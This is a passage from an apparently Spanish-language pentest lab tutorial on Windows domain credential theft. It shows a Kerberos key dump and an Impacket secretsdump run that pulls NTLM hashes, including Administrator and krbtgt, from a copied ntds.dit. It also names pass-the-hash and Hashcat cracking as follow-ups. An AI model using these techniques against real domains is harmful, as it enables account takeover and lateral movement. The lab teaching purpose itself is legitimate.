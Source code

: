 ```r
      Salt: WIN-NB4NGP3TKNKAdministrator
      Flags: 0
    KerberosNew:
      Credentials:
        AES256_CTS_HMAC_SHA1_96
          Key: 5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: 94c300d0e47775b407f2496a5cca1a0a
          Iterations: 4096
        DES_CBC_MD5
          Key: d60dfbbf20548938
          Iterations: 4096
      OldCredentials:
      OlderCredentials:
      ServiceCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      DefaultIterationCount: 4096
      Flags: 0
    WDigest:
Key Credentials:
Credential Roaming
  Created:
  Modified:
  Credentials:
```

### Extracting Hashes Using SecretsDump

También podemos usar `SecretsDump` sin conexión para extraer hashes del archivo `ntds.dit` obtenido anteriormente. Estos pueden ser utilizados para pass-the-hash y acceder a recursos adicionales o ser descifrados sin conexión utilizando `Hashcat` para obtener más acceso. Si se descifran, también podemos presentar al cliente estadísticas de descifrado de contraseñas para proporcionarles una visión detallada de la fortaleza y el uso general de contraseñas dentro de su dominio y proporcionar recomendaciones para mejorar su política de contraseñas (aumentar la longitud mínima, crear un diccionario de palabras no permitidas, etc.).

```r
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
printsvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::

<SNIP>
```

---